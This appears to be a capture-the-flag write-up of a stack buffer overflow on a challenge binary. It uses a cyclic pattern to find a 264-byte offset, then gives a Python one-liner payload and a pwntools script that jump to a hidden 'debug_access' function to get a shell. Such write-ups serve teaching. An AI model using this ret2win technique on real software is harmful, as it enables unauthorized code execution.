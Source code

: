 Also, we note the presence of the `debug_access` function, called nowhere. This function calls a shell, therefore we will try to call it using the buffer overflow.

So, our exploit will consist in:
- some padding, to overwrite the return address on the stack;
- the address of the `debug_access` function.

### Exploit

To find the offset of the return address, we can create a cyclic pattern of size 300, using an [online tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?), because for some reason my `cyclic` tool didn't work right this time:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

Using `pwndbg` we can inspect the contents of registers, after the segmentation fault occured (due to the program trying to access an invalid address, because it was overwritten by our cyclic pattern):

```
RSP  0x7fffffffd888 ◂— 'Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9\n'
```

Looking up this pattern in our cyclic tool, we end up with the offset 264.
Next, let's get the address of our forbidden function:

```
pwndbg> info fun debug_access
0x00000000004004fd  debug_access
```

Remembering the target works in little-endian, we have to inject address bytes in reverse order. We can now craft our payload manually using Python:

```
$ python2 -c 'print "A"*264 + "\xfd\x04\x40\x00\x00\x00\x00\x00"' > payload
```

With our payload ready, we can finally exploit the binary:

```
cat payload | ./chall
```

A less manual approach would be to make a Python script using the Pwntools library (stripped from boilerplate code here for simplicity):

```
from pwn import *
io = start()
padding = 264

payload = flat(
    b'A' * padding,
    elf.functions.debug_access
)

io.sendlineafter(b'>', payload)

io.interactive()
```
